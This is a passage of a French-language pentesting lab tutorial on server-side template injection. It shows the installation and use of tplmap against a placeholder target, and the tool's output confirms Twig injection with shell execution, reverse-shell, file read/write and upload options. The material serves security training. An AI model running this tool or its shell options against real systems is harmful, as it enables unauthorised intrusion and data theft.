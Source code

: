 -   [PayloadsAllTheThings - Injection de modèle](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

-   [HackTricks - SSTI (injection de modèle côté serveur)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

Nous aurions pu automatiser le processus d'identification du moteur de modèle que nous venons d'exécuter via [tplmap](https://github.com/epinna/tplmap) , comme suit. Si vous ne l'avez pas remarqué, l'entrée de l'utilisateur est soumise via le `name`paramètre et via une requête POST (d'où le `-d`paramètre dans `tplmap`).

#### tplmap.py

  tplmap.py

```
dsgsec@htb[/htb]$ git clone https://github.com/epinna/tplmap.git
dsgsec@htb[/htb]$ cd tplmap
dsgsec@htb[/htb]$ pip install virtualenv
dsgsec@htb[/htb]$ virtualenv -p python2 venv
dsgsec@htb[/htb]$ source venv/bin/activate
dsgsec@htb[/htb]$ pip install -r requirements.txt
dsgsec@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files

```